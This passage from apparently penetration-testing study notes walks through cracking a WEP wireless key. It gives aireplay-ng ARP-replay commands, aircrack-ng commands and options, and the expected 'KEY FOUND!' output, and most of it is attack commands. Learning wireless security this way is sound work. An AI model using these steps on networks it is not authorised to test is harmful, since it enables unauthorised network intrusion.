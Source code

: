 2. Listen to ARP requests
```
aireplay-ng -3 -b <bssid> <intf>
```

> The aireplay is saving ARP requests to a file.
> The next time you will not need to wait again For ARP requests.

3. Capture the ARP request
-  you can generate one by pinging a nonexistent IP from your victim client.

4. Almost instantly aireplay will start to re-inject the captured ARP request
- Sent packets goes up really quickly

5. Airodump will show the increase in received data frames as you are flooding the AP
- '#/s' will be bumped

### Cracking the Key with AirCrack-ng

- **Aircrack-ng** is a software that encapsulates a series of cracking techniques For both WEP and WPA network keys.
- The command needs data packets in order to crack the WEP key. The minimum amount of packets depend on the key length. 40 bit keys will require about 5000 IVs to be cracked, while 104 bits key could require a number ten times higher or more.

```
aircrack-ng -n <key_length> <.cap file>
```

> As you do not know the key length at the time of the attack, a good strategy is first trying with 64 bits. if that fails For more than 10.000 IVs, try again with a key size of 127 bits.

Other useful options of aircrack-ng:
```
-a <mode> = use 1 For WEP, 2 For WPA
-e <SSID> = target network SSID
-b <BSSID> = target APs MAC address
-c = search only alpha-numeric characters
-t = search only binary coded decimal characters
-w <wordlist> = provide path to wordlists For dictionary attack
```

6. Try to run aircrack on our captured packets.
```
aircrack-ng -e <SSID> wepattack1*.cap
```

> the cracking process wil begin, If the IVs number is not sufficient, aircrack will just wait For airodump to get more so you do not need to restart the command.

> This technique requires only ARP request/responses in order to work as they are used to improve the speed of the cracking process.

- So the usual network traffic will not be useful and you will need to launch an active attack with the ARP generation techniques we discussed earlier.

> if you have collected enough IVs, aircrack should now report the recovered key as follows
   KEY FOUND! [ 00:11:22:33:44:55 ] - key was found and displayed as hexadecimal bytes notation
